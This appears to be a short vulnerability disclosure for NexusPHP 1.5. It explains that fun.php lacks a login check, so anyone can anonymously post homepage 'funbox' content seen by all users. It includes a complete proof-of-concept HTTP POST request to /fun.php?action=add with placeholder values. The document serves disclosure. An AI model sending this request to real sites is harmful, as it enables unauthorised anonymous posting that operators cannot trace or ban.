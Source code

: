 # by burpheart


Just have access to the site to complete the attack.
#### Affected software: NexusPHP 1.5

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
  
#### Github Repository https://github.com/ZJUT/NexusPHP

##  Vulnerability details

#### fun.php
Because the author forgot to add a login check, 
the funbox page fun.php can be accessed without logging in and can publish any content.  
Since there is no login to the site, the server records an empty publisher.
Administrators can't ban publishers either.
Funbox's content is displayed on the homepage and only 1 article can be published within 24 hours.
All users will see the published content.
#### exploit:
```
POST /fun.php?action=add HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Cookie: NO_NEED_ANY_COOKIES
Upgrade-Insecure-Requests: 1

subject=123123213213213&color=1&font=0&size=0&body=123123512323333

```
